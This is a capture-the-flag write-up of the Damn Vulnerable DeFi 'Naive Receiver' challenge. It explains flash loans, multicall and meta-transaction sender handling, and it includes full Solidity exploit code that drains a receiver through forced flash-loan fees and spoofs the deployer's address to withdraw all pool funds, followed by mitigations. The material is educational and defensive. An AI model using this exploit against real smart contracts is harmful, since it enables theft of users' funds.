

In this article, we'll perform an in-depth analysis of the "Naive Receiver" challenge from Damn Vulnerable DeFi v4. Like the "Unstoppable" challenge we explored previously, this challenge demonstrates how subtle flaws in smart contract design can lead to devastating exploits. While "Unstoppable" showed how a single token transfer could permanently break a protocol, "Naive Receiver" will demonstrate how poor access control and validation can drain user funds completely.

## The Challenge

The "Naive Receiver" challenge presents us with the following scenario:

- A pool contract (`NaiveReceiverPool`) holding 1000 WETH that offers flash loans with a fixed fee of 1 WETH per loan
- A user contract (`FlashLoanReceiver`) with 10 WETH that can receive flash loans from the pool
- A meta-transaction system using the `BasicForwarder` contract

This challenge introduces several interesting concepts including flash loans, meta-transactions, and multicall functionality, each with their own security implications.

The objective is to drain all 1010 WETH (from both the pool and the receiver) to a recovery address

## Understanding the Ecosystem

Before diving into the vulnerabilities, let's understand the key components and standards involved in this challenge.

### ERC-3156: Flash Loan Standard

Flash loans allow users to borrow assets without providing collateral, as long as they repay the loan within the same transaction. ERC-3156 standardizes this functionality with two key interfaces:

1. **IERC3156FlashLender**: Implemented by pools offering flash loans
   - `flashLoan(borrower, token, amount, data)`: Executes the flash loan
   - `flashFee(token, amount)`: Returns the fee for a specific loan
   - `maxFlashLoan(token)`: Returns the maximum amount available for a loan

2. **IERC3156FlashBorrower**: Implemented by contracts receiving flash loans
   - `onFlashLoan(initiator, token, amount, fee, data)`: Called by the lender during the loan
   - Must return a specific magic value: `keccak256("IERC3156FlashBorrower.onFlashLoan")`

The standard flash loan flow works as follows:

1. A transaction initiates a flash loan by calling the lender's `flashLoan()` function
2. The lender transfers tokens to the borrower
3. The lender calls the borrower's `onFlashLoan()` function with the original initiator's address
4. The borrower performs its operations and must approve tokens for repayment
5. The lender pulls back the loan amount plus fees
6. If all steps succeed, the transaction completes; otherwise, it reverts

### Multicall Pattern

The Multicall pattern allows bundling multiple function calls into a single transaction, improving gas efficiency and atomic execution. In this challenge, the `Multicall` contract implements this pattern with a key function:

```solidity
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), data[i]);
    }
    return results;
}
```

This function:
- Takes an array of function call data
- Uses `functionDelegateCall` to execute each call within the context of the current contract
- Returns the results of each call

An important detail is that `functionDelegateCall` executes the function in the context of the current contract, meaning:
- Storage reads/writes affect the current contract's state
- The caller (`msg.sender`) inside the delegated function will be the contract itself

This creates interesting implications when a contract calls its own functions via multicall.

### Meta-Transactions with EIP-712 Signatures

Meta-transactions enable users to execute transactions without directly paying gas, by having a different entity (a "forwarder") submit the transaction on their behalf. This challenge uses the `BasicForwarder` contract which implements an EIP-712 based meta-transaction system:

```solidity
function execute(Request calldata request, bytes calldata signature) public payable returns (bool success) {
    _checkRequest(request, signature);

    nonces[request.from]++;

    uint256 gasLeft;
    uint256 value = request.value; // in wei
    address target = request.target;
    bytes memory payload = abi.encodePacked(request.data, request.from);
    uint256 forwardGas = request.gas;
    assembly {
        success := call(forwardGas, target, value, add(payload, 0x20), mload(payload), 0, 0)
        gasLeft := gas()
    }

    // Additional gas validation code...
}
```

The key components of this system are:
- **Request structure**: Contains details about the transaction to forward (sender, target, data, etc.)
- **EIP-712 signatures**: Cryptographically ensures that requests are authorized by the claimed sender
- **Sender appending**: The forwarder appends the original sender's address to the calldata
- **Target validation**: The target must recognize the forwarder as trusted

## Identifying the Vulnerabilities

This challenge contains two critical vulnerabilities that, when combined, allow for a complete draining of funds.

### Vulnerability 1: Unprotected Flash Loan Receiver

The first vulnerability lies in the `FlashLoanReceiver` contract's `onFlashLoan` implementation:

```solidity
function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
    external
    returns (bytes32)
{
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    // Additional validation and repayment logic...
}
```

The key issue here is what's being validated versus what's being ignored:

1. **What it checks**: The function verifies that the caller (`msg.sender`) is the trusted pool
2. **What it ignores**: The first parameter (`initiator`), which indicates who originally requested the flash loan

This means anyone can call `pool.flashLoan(receiver, token, amount, data)`, specifying the `FlashLoanReceiver` as the recipient. The receiver will accept the loan and pay the fee, regardless of who initiated it, as long as the call comes from the trusted pool.

Unlike a properly secured flash loan receiver that would validate both the caller and the initiator, this implementation creates an attack vector where the receiver can be forced to take unwanted loans.

### Vulnerability 2: Flawed Message Sender Validation

The second vulnerability is in the `_msgSender()` implementation in the `NaiveReceiverPool`:

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

This function attempts to support meta-transactions by extracting the original sender from the end of the calldata when the call comes from the trusted forwarder. However, it has a critical flaw:

1. It only checks that the message data is at least 20 bytes long
2. It doesn't validate the structure or format of the data
3. It blindly takes the last 20 bytes as the sender's address

This allows an attacker to craft calldata that ends with any arbitrary 20-byte value, effectively impersonating any address when interacting through the forwarder.

## Crafting the Exploit

Now that we understand the vulnerabilities, let's analyze how they can be combined into a powerful exploit.

### The Strategy

Our attack strategy can be broken down into three main steps:

1. **Drain the FlashLoanReceiver**: Force the receiver to take multiple flash loans, each with a 1 WETH fee, until its 10 WETH is depleted
2. **Impersonate the Fee Recipient**: Exploit the `_msgSender()` vulnerability to impersonate the fee recipient (deployer)
3. **Withdraw All Funds**: As the impersonated fee recipient, withdraw the entire pool balance to our recovery address

All of this needs to be executed in a single transaction to meet the challenge's requirements.

### Implementing the Exploit

Let's walk through the implementation step by step:

#### Step 1: Setting Up the Multicall Data

We'll use the pool's `multicall` function to execute all our exploits atomically:

```solidity
// Prepare call data for 10 flash loans and 1 withdrawal
bytes[] memory callDatas = new bytes[](11);

// 1. Drain the FlashLoanReceiver contract by triggering 10 flash loans
for (uint i = 0; i < 10; i++) {
    callDatas[i] = abi.encodeCall(
        pool.flashLoan,
        (receiver, address(weth), 0, "0x")
    );
}
```

For each flash loan call:
- We target the vulnerable receiver contract
- We request 0 WETH (which is valid and minimizes gas costs)
- Each call still incurs the fixed 1 WETH fee
- After 10 calls, all 10 WETH from the receiver will be transferred to the pool as fees

The fees are credited to the deployer's account in the pool, which is crucial for the next part of our exploit.

#### Step 2: Crafting the Withdrawal Call

Once the receiver is drained, we need to withdraw all the pooled funds. To do this, we'll exploit the `_msgSender()` vulnerability to impersonate the deployer:

```solidity
// 2. Exploit the vulnerability in the _msgSender() mechanism for the withdrawal
callDatas[10] = abi.encodePacked(
    abi.encodeCall(
        pool.withdraw,
        (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
    ),
    bytes32(uint256(uint160(deployer)))
);
```

This carefully crafted calldata:
1. Encodes a call to the `withdraw` function requesting all 1010 WETH
2. Appends the deployer's address as the last 20 bytes
3. When executed via the forwarder, will be interpreted as coming from the deployer
4. Allows withdrawal of all funds to our recovery address

#### Step 3: Preparing and Executing the Meta-Transaction

With our calldata prepared, we now need to create and sign a meta-transaction to be executed by the forwarder:

```solidity
// Combine all calls into a single transaction via multicall
bytes memory multicallData = abi.encodeCall(pool.multicall, callDatas);

// 3. Create a request for the forwarder
BasicForwarder.Request memory request = BasicForwarder.Request({
    from: player,
    target: address(pool),
    value: 0,
    gas: gasleft(),
    nonce: forwarder.nonces(player),
    data: multicallData,
    deadline: block.timestamp + 3600
});

// 4. Sign the request using EIP-712
bytes32 dataHash = forwarder.getDataHash(request);
bytes32 digest = keccak256(
    abi.encodePacked("\x19\x01", forwarder.domainSeparator(), dataHash)
);

(uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
bytes memory signature = abi.encodePacked(r, s, v);

// 5. Execute the request via the forwarder
forwarder.execute(request, signature);
```

When executed, this creates a chain of calls:
1. `forwarder.execute()` verifies our signature and forwards the call to the pool
2. `pool.multicall()` processes our array of calls sequentially
3. Ten `pool.flashLoan()` calls drain the receiver
4. The final `pool.withdraw()` call (with the appended address) withdraws all funds

## Execution Flow Analysis

Let's follow the execution path to understand the attack at a deeper level:

1. **Player** signs and submits a meta-transaction to the **Forwarder**
2. **Forwarder** validates the signature and calls **Pool.multicall()** (appending player's address)
3. **Pool.multicall()** executes multiple function calls on itself:
   - For each flash loan call:
     - **Pool** transfers 0 WETH to **Receiver**
     - **Pool** calls **Receiver.onFlashLoan()**
     - **Receiver** validates that caller is the **Pool**
     - **Receiver** approves 1 WETH fee to the **Pool**
     - **Pool** collects the 1 WETH fee and credits **Deployer**
   - For the withdrawal call:
     - **Pool._msgSender()** extracts the appended address (deployer)
     - **Pool** verifies that **Deployer** has sufficient balance
     - **Pool** transfers all WETH to the **Recovery** address



The attack is particularly clever because it uses multiple contract interactions, each with their own context and security assumptions.

## Preventative Measures

To protect against these types of vulnerabilities, several security measures could be implemented:

### For Flash Loan Receivers

1. **Validate the initiator**: Always check that the flash loan was initiated by a trusted address
   ```solidity
   function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data)
       external returns (bytes32)
   {
       require(initiator == owner || initiator == authorizedUser, "Unauthorized initiator");
       // Rest of the function...
   }
   ```

2. **Implement reentrancy guards**: Prevent attackers from manipulating the contract state during a flash loan
   ```solidity
   uint8 private locked = 1;
   modifier nonReentrant() {
       require(locked == 1, "Reentrant call");
       locked = 2;
       _;
       locked = 1;
   }
   ```

### For Meta-Transaction Handlers

1. **Strict calldata validation**: Verify the structure and format of the calldata
   ```solidity
   function _msgSender() internal view returns (address sender) {
       if (msg.sender == trustedForwarder) {
           // Validate calldata has expected format
           require(msg.data.length >= minDataSize, "Invalid forwarded data");

           // Extract sender from a specific position, not just the end
           assembly {
               sender := shr(96, calldataload(sub(calldatasize(), 20)))
           }
       } else {
           sender = msg.sender;
       }
   }
   ```

2. **Use typed structures**: Instead of appending data, use properly encoded structures
   ```solidity
   // In the forwarder
   bytes memory payload = abi.encode(ForwardRequest(request.data, request.from));
   ```

### For Multicall Implementations

1. **Access control**: Restrict who can call multicall or which functions can be called through it
   ```solidity
   function multicall(bytes[] calldata data) external onlyAuthorized returns (bytes[] memory) {
       // Implementation...
   }
   ```

2. **Function selector validation**: Validate the function selectors being called
   ```solidity
   function multicall(bytes[] calldata data) external returns (bytes[] memory results) {
       results = new bytes[](data.length);
       for (uint256 i = 0; i < data.length; i++) {
           bytes4 selector = bytes4(data[i][:4]);
           require(allowedSelectors[selector], "Function not allowed");
           results[i] = Address.functionDelegateCall(address(this), data[i]);
       }
       return results;
   }
   ```

## Conclusion

The "Naive Receiver" challenge demonstrates how multiple seemingly minor vulnerabilities can be combined into a devastating attack. By exploiting:
1. The receiver's failure to validate the flash loan initiator
2. The pool's improper handling of meta-transaction sender addresses
3. The unrestricted multicall functionality

We were able to drain both contracts of all their funds in a single transaction.
